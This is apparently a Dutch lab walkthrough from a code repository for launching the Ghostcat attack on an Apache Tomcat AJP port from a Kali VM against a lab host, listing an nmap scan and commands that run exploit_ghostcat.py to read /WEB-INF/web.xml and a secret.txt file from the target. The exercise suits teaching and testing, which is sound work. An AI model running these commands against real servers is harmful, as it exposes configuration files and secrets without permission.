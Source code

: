 # Starten van de aanval

## 1) Stappen om de aanval succesvol uit te voeren (Kali VM)

- 4.1) Start de kali vm (indien deze nog niet aan staat):
- 4.2) zorg dat het exploit_ghostcat.py bestand op de kali vm staat
- 4.3) open terminal
- voer volgende commando's uit: 
- 4.4) sudo systemctl start ssh
- 4.5) sudo systemctl enable ssh
- 4.6) ga naar het pad waar het exploit_ghostcat.py bestand staat (bv Downloads -> cd Downloads)
- 4.8) chmod +x exploit_ghostcat.py
- 4.9) nmap 10.10.10.4 -p 8009
- 4.10) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
- 4.11) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read
